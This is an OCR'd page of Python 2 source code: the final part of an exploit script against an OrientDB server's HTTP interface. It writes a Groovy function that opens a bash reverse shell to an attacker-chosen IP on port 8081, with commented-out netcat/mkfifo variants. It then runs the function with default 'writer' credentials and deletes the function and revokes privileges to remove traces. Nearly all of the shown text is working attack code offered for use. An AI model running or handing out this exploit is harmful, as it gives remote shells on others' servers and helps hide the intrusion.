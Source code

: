 ```
    query = '{"@class":"ofunction","@version":0,"@rid":"#-1:-1","idempotent":null,"name":"'+func_name+'","language":"groovy","code":"def command = \'bash -i >& /dev/tcp/'+reverse_ip+'/8081 0>&1\';File file = new File(\\"hello.sh\\");file.delete();file << (\\"#!/bin/bash\\\\n\\");file << (command);def proc = \\"bash hello.sh\\".execute();","parameters":null}'
    #query = '{"@class":"ofunction","@version":0,"@rid":"#-1:-1","idempotent":null,"name":"'+func_name+'","language":"groovy","code":"def command = \'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.0.0.0 8081 >/tmp/f\' \u000a File file = new File(\"hello.sh\")\u000a     file.delete()       \u000a     file << (\"#!/bin/bash\")\u000a     file << (command)\n    def proc = \"bash hello.sh\".execute() ","parameters":null}'
    #query = {"@class":"ofunction","@version":0,"@rid":"#-1:-1","idempotent":None,"name":"lllasd","language":"groovy","code":"def command = \'bash -i >& /dev/tcp/0.0.0.0/8081 0>&1\';File file = new File(\"hello.sh\");file.delete();file << (\"#!/bin/bash\\n\");file << (command);def proc = \"bash hello.sh\".execute();","parameters":None}
    req = requests.post("http://%s:%s/document/%s/-1:-1"%(target,port,databases[0]),data=query,auth=('writer','writer'))

    if req.status_code == 201:

        #print req.status_code
        #print req.json()

        func_id = req.json()['@rid'].strip("#")
        #print func_id

        print "[+] Exploitation successful, get ready for your shell.Executing %s"%(func_name)

        req = requests.post("http://%s:%s/function/%s/%s"%(target,port,databases[0],func_name),auth=('writer','writer'))
        #print req.status_code
        #print req.text

        if req.status_code == 200:
            print "[+] Open netcat at port 8081.."
        else:
            print "[+] Exploitation failed at last step, try running the script again."
            print req.status_code
            print req.text

        #print "[+] Deleting traces.."

        req = requests.delete("http://%s:%s/document/%s/%s"%(target,port,databases[0],func_id),auth=('writer','writer'))
        priv1 = run_queries("REVOKE","database.class.ouser","Cleaning Up..database.class.ouser")
        priv2 = run_queries("REVOKE","database.function","Cleaning Up..database.function")
        priv3 = run_queries("REVOKE","database.systemclusters","Cleaning Up..database.systemclusters")

        #print req.status_code
        #print req.text

def main():

    target = sys.argv[1]
    #port = sys.argv[1] if sys.argv[1] else 2480
    try:
        port = sys.argv[2] if sys.argv[2] else 2480
        #print port
    except:
        port = 2480
    if priv_escalation(target,port):
        exploit(target,port)
    else:
        print "[+] Target not vulnerable"
```